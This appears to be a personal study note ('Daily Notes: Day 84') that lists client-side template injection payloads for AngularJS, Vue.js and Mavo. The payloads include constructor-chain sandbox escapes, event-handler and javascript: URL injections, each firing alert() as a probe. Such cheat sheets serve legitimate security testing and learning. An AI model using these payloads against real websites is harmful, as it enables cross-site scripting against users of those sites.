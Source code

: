 Daily Notes : Day 84
CSTI  - Client side template Injection 

Angular js :
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

Vue js : 
https://domain>/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%7D

Mavo : 
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]